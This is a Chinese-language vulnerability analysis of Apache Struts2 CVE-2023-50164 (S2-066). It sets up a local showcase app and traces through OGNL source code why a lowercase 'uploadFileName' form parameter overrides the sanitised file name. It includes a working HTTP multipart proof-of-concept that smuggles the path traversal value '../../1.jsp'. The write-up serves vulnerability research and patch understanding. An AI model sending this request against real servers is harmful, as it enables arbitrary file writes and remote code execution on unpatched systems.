







**CVE-2023-50164**、**S2-066**，在Struts2的文件上传`FileUploadInterceptor` 处理过程中，为了方便用户会自动将上传的文件、文件名、参数等通过setter方式赋值给用户的逻辑，而这部分可以通过用户传递的文件名参数、覆盖Strust2自动设置的文件名的方式来绕过Struts2的文件名限制，进行目录穿越进而达到RCE的效果。

> An attacker can manipulate file upload params to enable paths traversal and under some circumstances this can lead to uploading a malicious file which can be used to perform Remote Code Execution.
>
> https://cwiki.apache.org/confluence/display/WW/S2-066


影响版本：

* Struts 2.0.0 - Struts 2.3.37 
* Struts 2.5.0 - Struts 2.5.32
* Struts 6.0.0 - Struts 6.3.0


# 环境搭建

Struts2 配置文件，定义了路径、处理方法、前端页面

```
<!DOCTYPE struts PUBLIC
	"-//Apache Software Foundation//DTD Struts Configuration 6.0//EN"
	"https://struts.apache.org/dtds/struts-6.0.dtd">

<struts>
	<package name="fileupload" extends="struts-default" namespace="/fileupload">
        <action name="doUpload" class="org.apache.struts2.showcase.fileupload.FileUploadAction" method="upload">
        	<result name="input">/WEB-INF/fileupload/upload.jsp</result>
			<result>/WEB-INF/fileupload/upload-success.jsp</result>
		</action>

    </package>
</struts>
```

前端jsp ，注意`<s:file name="upload" label="File"/>` 表示字段名是`upload`

```jsp
<%@ taglib prefix="s" uri="/struts-tags" %>
<html>
<head>
    <title>Struts2 Showcase - Fileupload sample</title>
</head>

<body>
    <div class="page-header">
	    <h1>Fileupload sample</h1>
    </div>

    <div class="container-fluid">
	    <div class="row">
		    <div class="col-md-12">
			    <s:actionerror cssClass="alert alert-error"/>
				<s:fielderror cssClass="alert alert-error"/>
			    <s:form action="doUpload" method="POST" enctype="multipart/form-data">
			        <s:file name="upload" label="File"/>
			        <s:textfield name="caption" label="Caption"/>
			        <s:submit cssClass="btn btn-primary"/>
			    </s:form>
		    </div>
	    </div>
    </div>
</body>
</html>
```

业务处理逻辑，Struts2会自动将上传的文件传递给下面的upload字段，文件名赋值给fileName字段等。

```java
package org.apache.struts2.showcase.fileupload;

import com.opensymphony.xwork2.ActionSupport;
import org.apache.commons.io.FileUtils;
import org.apache.struts2.ServletActionContext;

import java.io.File;

/**
 * Show case File Upload example's action. <code>FileUploadAction</code>
 */
public class FileUploadAction extends ActionSupport {

	private static final long serialVersionUID = 5156288255337069381L;

	private String contentType;
	private File upload;
	private String fileName;
	private String caption;

	public String input() throws Exception {
		return SUCCESS;
	}

	public String upload() throws Exception {
		String path = ServletActionContext.getServletContext().getRealPath("/")+"upload";
		System.out.println("this.getUploadFileName(): " + this.getUploadFileName());
		System.out.println("upload path: " + path);
		String realPath = path + File.separator + this.getUploadFileName();
		try {
			FileUtils.copyFile(upload, new File(realPath));
		} catch (Exception e) {
			e.printStackTrace();
		}


		return SUCCESS;
	}

	// since we are using <s:file name="upload" .../> the file name will be
	// obtained through getter/setter of <file-tag-name>FileName
	public String getUploadFileName() {
		return fileName;
	}

	public void setUploadFileName(String fileName) {
		this.fileName = fileName;
	}


	// since we are using <s:file name="upload" ... /> the content type will be
	// obtained through getter/setter of <file-tag-name>ContentType
	public String getUploadContentType() {
		return contentType;
	}

	public void setUploadContentType(String contentType) {
		this.contentType = contentType;
	}


	// since we are using <s:file name="upload" ... /> the File itself will be
	// obtained through getter/setter of <file-tag-name>
	public File getUpload() {
		return upload;
	}

	public void setUpload(File upload) {
		this.upload = upload;
	}


	public String getCaption() {
		return caption;
	}

	public void setCaption(String caption) {
		this.caption = caption;
	}

        public long getUploadSize() {
            if (upload != null) {
                return upload.length();
            } else {
                return 0;
            }
        }
}

```


# POC及利用条件

POC： 

注意 `uploadFileName` 这是上面的代码中由Strust2自动赋值过来的参数，下面通过手动传递进行覆盖

```http
POST /struts2_showcase_war/fileupload/doUpload.action HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------21972861871679732823856174094
Content-Length: 472
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/struts2_showcase_war/fileupload/upload.action
Cookie: JSESSIONID=5B04BC8FA13D0717C172C4AF150FB093
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------21972861871679732823856174094
Content-Disposition: form-data; name="Upload"; filename="11111.txt"
Content-Type: text/plain

1111
-----------------------------21972861871679732823856174094
Content-Disposition: form-data;  name="uploadFileName"

../../1.jsp
-----------------------------21972861871679732823856174094
Content-Disposition: form-data; name="caption"

3333
-----------------------------21972861871679732823856174094--

```

**利用条件：**

1. 首先要知道 文件上传代码中的文件名字段名， 这里上传名是 `upload` （由jsp中定义），文件名字段按照习惯可能会是`UploadFileName` （upload + FileName） ，如果不是则无法覆盖

   > Content-Disposition: form-data; name="Upload"; filename="11111.txt"
   >
   > Content-Disposition: form-data;  name="uploadFileName"

2. 这个洞的利用点就在通过自己传的文件名覆盖掉Strust2自动赋值的文件名，所以如果原来程序逻辑本来就是获取文件名，根据后缀判断，那这个洞就没法利用了

   > 这么看，其实没有想象的那么严重？


# 漏洞分析

这个补丁这么找来的

https://github.com/apache/struts/commit/162e29fee9136f4bfd9b2376da2cbf590f9ea163


`org.apache.struts2.interceptor.FileUploadInterceptor#intercept` 这里主要提取用户的数据包中的文件、文件名、文件类型字段，



注意，这里的文件名会被安全处理

```
String[] fileName = multiWrapper.getFileNames(inputName);
```

`org.apache.struts2.dispatcher.multipart.AbstractMultiPartRequest#getCanonicalName` 会将 `/` 和`\`的目录遍历payload过滤掉

```java
    protected String getCanonicalName(String originalFileName) {
        int forwardSlash = originalFileName.lastIndexOf(47);
        int backwardSlash = originalFileName.lastIndexOf(92);
        String fileName;
        if (forwardSlash != -1 && forwardSlash > backwardSlash) {
            fileName = originalFileName.substring(forwardSlash + 1);
        } else {
            fileName = originalFileName.substring(backwardSlash + 1);
        }

        return fileName;
    }
```

再回到主逻辑，`com.opensymphony.xwork2.interceptor.ParametersInterceptor#doIntercept` 的`parameters `会收到所有传入的参数并调用`this.setParameters`将这些参数通过用户的setter方法传递过去



可以注意到上图中有两个变量名：`UploadFileName` 和 `uploadFileName`  有不同的值，但都会调用`setUploadFileName` 这个方法，也就是会执行两次`setUploadFileName` ，小写开头的`uploadFileName` 会替换掉由Struts2自动生成的大写`UploadFileName`的值，进而目录穿越，这就是漏洞点

> 示例中的upload类（ org.apache.struts2.showcase.fileupload.FileUploadAction）：
>
> public void setUpload(File upload) 
>
> public void setUploadFileName(String fileName) 
>
> public void setUploadContentType(String contentType)


再来看为何 `UploadFileName` 和 `uploadFileName`   两个都会执行 `setUploadFileName` 跟进 `this.setParameters`， 可以看到通过 `newStack.setParameter` 进行设置参数，继续跟进





在 `org.apache.struts2.showcase.fileupload.FileUploadAction#setUpload`打个断点 ，回溯

```
setUpload:89, FileUploadAction (org.apache.struts2.showcase.fileupload)
invokeVirtual:-1, DirectMethodHandle$Holder (java.lang.invoke)
invoke:-1, LambdaForm$MH/0x0000000800cc2000 (java.lang.invoke)
invokeExact_MT:-1, Invokers$Holder (java.lang.invoke)
invokeImpl:155, DirectMethodHandleAccessor (jdk.internal.reflect)
invoke:104, DirectMethodHandleAccessor (jdk.internal.reflect)
invoke:577, Method (java.lang.reflect)
invokeMethodInsideSandbox:1245, OgnlRuntime (ognl)
invokeMethod:1230, OgnlRuntime (ognl)
callAppropriateMethod:1958, OgnlRuntime (ognl)
setMethodValue:2196, OgnlRuntime (ognl)
setPossibleProperty:98, ObjectPropertyAccessor (ognl)
setProperty:175, ObjectPropertyAccessor (ognl)
setProperty:42, ObjectAccessor (com.opensymphony.xwork2.ognl.accessor)
setProperty:3359, OgnlRuntime (ognl)
setProperty:84, CompoundRootAccessor (com.opensymphony.xwork2.ognl.accessor)
setProperty:3359, OgnlRuntime (ognl)
setValueBody:134, ASTProperty (ognl)
evaluateSetValueBody:220, SimpleNode (ognl)
setValue:308, SimpleNode (ognl)
setValue:829, Ognl (ognl)
lambda$setValue$2:550, OgnlUtil (com.opensymphony.xwork2.ognl)
execute:-1, OgnlUtil$$Lambda$383/0x0000000800fa97a0 (com.opensymphony.xwork2.ognl)
compileAndExecute:625, OgnlUtil (com.opensymphony.xwork2.ognl)
setValue:543, OgnlUtil (com.opensymphony.xwork2.ognl)
trySetValue:195, OgnlValueStack (com.opensymphony.xwork2.ognl)
setValue:182, OgnlValueStack (com.opensymphony.xwork2.ognl)
setParameter:166, OgnlValueStack (com.opensymphony.xwork2.ognl)
setParameters:228, ParametersInterceptor (com.opensymphony.xwork2.interceptor)
doIntercept:144, ParametersInterceptor (com.opensymphony.xwork2.interceptor)
...
```

着重看下`ognl.OgnlRuntime#setMethodValue(ognl.OgnlContext, java.lang.Object, java.lang.String, java.lang.Object, boolean)` 如何获取方法的，为什么`uploadFileName`  会调用`setUploadFileName`方法



`ognl.OgnlRuntime#_getSetMethod ` 中的逻辑主要是获取属性的所有方法，根据参数的个数是否为1 判断是否为set方法



`ognl.OgnlRuntime#getDeclaredMethods `

```java
   public static List getDeclaredMethods(Class targetClass, String propertyName, boolean findSets)
    {
        List result = null;
        ClassCache cache = _declaredMethods[findSets ? 0 : 1];

        Map propertyCache = (Map) cache.get(targetClass);
        if ((propertyCache == null) || ((result = (List) propertyCache.get(propertyName)) == null)) {
            synchronized (cache) {
                propertyCache = (Map) cache.get(targetClass);

                if ((propertyCache == null) || ((result = (List) propertyCache.get(propertyName)) == null)) {
										
                  	// 对属性名进行处理
                    String baseName = capitalizeBeanPropertyName(propertyName);
                    result = new ArrayList();
                  	
                  	// 匹配符合属性名的方法
                    collectAccessors(targetClass, baseName, result, findSets);

                    if (propertyCache == null) {
                        cache.put(targetClass, propertyCache = new HashMap(101));
                    }
                    propertyCache.put(propertyName, result.isEmpty() ? NotFoundList : result);

                    return result.isEmpty() ? null : result;
                }
            }
        }
        return (result == NotFoundList) ? null : result;
    }
```

`ognl.OgnlRuntime#capitalizeBeanPropertyName` 主要是将属性名返回格式处理成 首字母大写， 用来组成 setter方法，比如`setUpload` 

```java
    private static String capitalizeBeanPropertyName(String propertyName) {
        if (propertyName.length() == 1) {
            return propertyName.toUpperCase();
        }
      	// 一些特殊的方法调用：
        // don't capitalize getters/setters
        if (propertyName.startsWith(GET_PREFIX) && propertyName.endsWith("()")) {
            if (Character.isUpperCase(propertyName.substring(3,4).charAt(0))) {
                return propertyName;
            }
        }
        if (propertyName.startsWith(SET_PREFIX) && propertyName.endsWith(")")) {
            if (Character.isUpperCase(propertyName.substring(3,4).charAt(0))) {
                return propertyName;
            }
        }
        if (propertyName.startsWith(IS_PREFIX) && propertyName.endsWith("()")) {
            if (Character.isUpperCase(propertyName.substring(2,3).charAt(0))) {
                return propertyName;
            }
        }
        char first = propertyName.charAt(0);
        char second = propertyName.charAt(1);
      	
        if (Character.isLowerCase(first) && Character.isUpperCase(second)) {
            return propertyName;
        } else {
          	// 将 首字母大写 返回，用来后面拼接 set  匹配方法
            char[] chars = propertyName.toCharArray();
            chars[0] = Character.toUpperCase(chars[0]);
            return new String(chars);
        }
    }
```

将恶意参数 `uploadFileName`  转成`UploadFileName`



遍历方法，取出匹配的方法

```java
    private static void collectAccessors(Class c, String baseName, List result, boolean findSets)
    {
        Method[] methods;
        try {
            methods = c.getDeclaredMethods();
        } catch (SecurityException ignored) {
            methods = c.getMethods();
        }
        for (int i = 0; i < methods.length; i++) {
            if (c.isInterface()) {
                if (isDefaultMethod(methods[i]) || isNonDefaultPublicInterfaceMethod(methods[i])) {
                    addIfAccessor(result, methods[i], baseName, findSets);
                }
                continue;
            }
						// ...
            addIfAccessor(result, methods[i], baseName, findSets);
        }


    }
```

取出属性名相关的 is 、set、get方法 ，主要是通过长度来添加方法

```java
//     private static final String SET_PREFIX = "set";
//     private static final String GET_PREFIX = "get";
//     pprivate static final String IS_PREFIX = "is";
	private static void addIfAccessor(List result, Method method, String baseName, boolean findSets)
    {
        final String ms = method.getName();
    		// 必须以属性名结尾
        if (ms.endsWith(baseName)) {
            boolean isSet = false, isIs = false;
            if ((isSet = ms.startsWith(SET_PREFIX)) || ms.startsWith(GET_PREFIX)
                    || (isIs = ms.startsWith(IS_PREFIX))) {
                int prefixLength = (isIs ? 2 : 3);
                if (isSet == findSets) {
                  	// 并且长度一样
                    if (baseName.length() == (ms.length() - prefixLength)) {
                        result.add(method);
                    }
                }
            }
        }
    }
```

从上面看，如果是小写的`uploadFileName`方法正好能通过`capitalizeBeanPropertyName` 将首字母大写，而被`addIfAccessor`匹配添加进列表执行。

而在这个过程中，先添加进去的方法会被后进的方法覆盖执行，所以利用也取决于添加顺序和排序顺序：

`com.opensymphony.xwork2.interceptor.ParametersInterceptor#setParameters`

```java
    protected void setParameters(Object action, ValueStack stack, HttpParameters parameters) {
        HttpParameters params;
        TreeMap acceptableParameters;
        if (this.ordered) {
            params = HttpParameters.create().withComparator(this.getOrderedComparator()).withParent(parameters).build();
            acceptableParameters = new TreeMap(this.getOrderedComparator());
        } else {
            params = HttpParameters.create().withParent(parameters).build();
            acceptableParameters = new TreeMap();
        }
```


# 还有没有其他的

总结一下，默认在 `org.apache.struts2.interceptor.FileUploadInterceptor#intercept`中的文件名处理`String[] fileName = multiWrapper.getFileNames(inputName);`会调用`org.apache.struts2.dispatcher.multipart.AbstractMultiPartRequest#getCanonicalName`将目录穿越的参数过滤掉，而因为所有的参数都会流入`com.opensymphony.xwork2.interceptor.ParametersInterceptor#setParameters`  进行赋值，用户自己传上来的文件名参数不会经过`getCanonicalName`过滤操作，从而进行绕过了。

所以，还有没有在拦截器中过滤的参数，可以通过`ParametersInterceptor#setParameters`重新设置上？

